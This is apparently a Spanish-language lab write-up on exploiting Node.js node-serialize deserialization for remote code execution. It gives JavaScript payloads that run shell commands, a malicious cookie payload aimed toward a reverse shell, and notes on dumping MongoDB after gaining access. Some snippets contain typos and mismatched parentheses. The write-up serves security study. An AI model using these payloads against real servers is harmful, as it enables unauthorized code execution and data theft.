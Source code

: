 ```yaml
---
title: "NodeJS Deserialization"
author: Tuch0
date: 2023-09-17
categories: 
  - Vectores-de-Ataque
tags: 
  - nodjs
  - deserialization
  - MongoDB
image:
  path: ../../assets/Miniaturas/VectoresDeAtaque/nodejs-deserialization.jpg
  width: 800
  height: 500
---
```




## Inyectar comando ANTES de que "serialize la data" con "IFFE"

> Recurso: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```js
var y = {
	rce : function(){
	require('child_process').exec('ls /'), function (error, stdout, stderr) { console.log(stdout) })
	}(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

> Esto ocurre gracias a los dos paréntesis , que hay despues de ejecutar el comando ya que antes de hacer la "deserialization" va a ejecutar el comando, esto es conocido como "IFFE" (inyection function)
{: .prompt-info }

## Unserialize

> De lado de un servidor que usa NodeJS , lo que hacen es deserializar la data , de esta menera vamos a a crear una data "serializada" maliciosa , de manera que cuado la "deserialize" ejecute el comando que nosotros queramos aprovechandonos de el "IFFE"
{: .prompt-info }

```js
var serialize = require('node-serialize')
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_processs\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload)
```
### Escenario

> En este caso , gracias a un XXE , hemos conseguido saber donde se situa el server.js , mirando su código nos hemos dado cuenta de que "deserializa" la data de la cookie , por lo tanto vamos a tratar de hacer una cookie serializada maliciosa para obtener una reverse shell
{: .prompt-info }

> Vamos a usar el payload de antes , y vamos a urlEncodearlo , para ponerlo en la cookie , cabe destacar que si da erro , le quitemos los saltos de linea
{: .prompt-info }

```js
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.27', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

## Otro

> Cabe destacar que antes gracias a el archivo "server.js" hemos sabido que por detrás corre mongo , por lo tanto una vez dentro de la máquina , podemos conectarnos usando el comando "mongo"
{: .prompt-info }

> Si no sabemos usar mongo basta con conectarnos con "mongo" y luego poner "mongo dump", esto creara un directorio con todos los archivos de mongo, si con cat , lo reporta un poco feo , puedes usar el comando besomdump
{: .prompt-info }




